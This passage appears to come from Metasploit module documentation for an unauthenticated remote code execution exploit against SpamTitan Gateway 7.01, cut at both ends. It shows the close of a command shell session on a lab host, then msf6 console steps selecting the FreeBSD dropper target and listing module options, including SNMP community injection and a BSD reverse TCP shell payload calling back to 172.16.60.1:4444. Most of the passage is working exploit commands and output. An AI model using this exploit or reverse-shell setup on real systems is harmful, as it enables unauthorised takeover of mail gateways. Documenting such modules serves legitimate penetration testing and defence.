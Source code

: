 ```
	media: Ethernet autoselect (1000baseT <full-duplex>)
	status: active
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> metric 0 mtu 16384
	options=600003<RXCSUM,TXCSUM,RXCSUM_IPV6,TXCSUM_IPV6>
	inet6 ::1 prefixlen 128
	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x2
	inet 127.0.0.1 netmask 0xff000000
	inet 127.0.0.2 netmask 0xffffffff
	inet 127.0.0.3 netmask 0xffffffff
	nd6 options=21<PERFORMNUD,AUTO_LINKLOCAL>
^C
Abort session 1? [y/N]  y

[*] 172.16.60.101 - Command shell session 1 closed.  Reason: User exit
```

### SpamTitan Gateway v7.01 - target 1 (FreeBSD Dropper - x64)

```
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set target 1
target => 1
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is typically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
```